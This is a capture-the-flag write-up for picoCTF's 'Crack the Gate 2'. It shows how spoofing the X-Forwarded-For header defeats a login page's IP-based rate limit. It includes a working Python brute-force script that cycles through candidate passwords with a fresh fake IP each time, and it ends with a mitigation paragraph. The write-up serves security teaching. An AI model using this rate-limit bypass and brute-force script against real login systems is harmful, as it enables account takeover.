

# Crack the Gate 2 - Rate Limit Bypass Challenge

## Challenge Overview

**Challenge Name:** Crack the Gate 2  
**Category:** Web Exploitation  
**Points:** 200  
**Author:** Yahaya Meddy

## Challenge Description

The challenge presents a login system with basic rate-limiting that locks out users after repeated failed attempts from the same source. The key vulnerability is that the system trusts user-controlled headers for IP identification. The goal is to bypass the rate-limiting mechanism to brute-force the correct password for the email `ctf-player@picoctf.org`.

## Initial Analysis

When attempting to login with incorrect credentials, the server responds with:

```json
{
  "success": false,
  "error": "Too many failed attempts. Please try again in 20 minutes."
}
```

The challenge provides a list of 20 potential passwords and hints that the system might trust user-controlled headers for rate limiting.

## Vulnerability Identification

The critical vulnerability is **IP-based rate limiting that can be bypassed via the `X-Forwarded-For` header**. This header is commonly used to identify the original client IP when requests pass through proxies or load balancers.

## Exploitation Strategy

### Step 1: Understanding the Rate Limit Bypass

The rate limiting tracks requests by IP address. By spoofing the `X-Forwarded-For` header with different values for each request, we can make the system believe each login attempt comes from a different client, thus bypassing the rate limit.

### Step 2: Automated Brute-Force Approach

We create a Python script that:

1. Iterates through each password in the provided list
2. Uses a different IP address in the `X-Forwarded-For` header for each attempt
3. Checks for successful login by examining the JSON response content

### Step 3: The Exploit Code

```python
import requests
import time

url = "http://amiable-citadel.picoctf.net:57483/login"
email = "ctf-player@picoctf.org"

passwords = [
    "tkY83OwR", "vISQRFmM", "471HtPne", "s8nXfR6X", "WoQEk5GL",
    "eu8z9EFn", "0SMi2c8U", "WlHiKuw6", "0iaXgUGR", "shNKoNrW",
    "KaqwDEUA", "eSqOLef7", "CueFICmh", "MZZSJucZ", "eZQR9yx7",
    "sPEIun6X", "p0fkX9cA", "CY1sEmC6", "M707m17w", "8thnKYYn"
]

for i, password in enumerate(passwords):
    headers = {
        "Content-Type": "application/json",
        "X-Forwarded-For": f"10.0.{i//256}.{i%256}"
    }

    data = {"email": email, "password": password}

    response = requests.post(url, json=data, headers=headers)
    response_data = response.json()

    print(f"Attempt {i+1}: {password} - Status: {response.status_code}")

    if response_data.get('success') == True:
        print(f"\n🎉 SUCCESS! Correct password found: {password}")
        print(f"Full response: {response_data}")
        if 'flag' in response_data:
            print(f"\n🚩 FLAG: {response_data['flag']}")
        break
    else:
        print(f"  ↳ Login failed (success: {response_data.get('success')})")

    time.sleep(0.5)
```



## mitigation:

To mitigate X-Forwarded-For header spoofing, implement multi-layered rate limiting that combines IP addresses with user sessions, tokens, or behavioral fingerprints; only trust the header from known, internal proxies while validating it against the actual connection IP, and use cryptographic signatures for headers when they pass through trusted infrastructure. Additionally, employ database-backed rate limiting with request fingerprinting that considers multiple factors like user-agent, geographical patterns, and timing to make bypass attempts significantly more difficult.
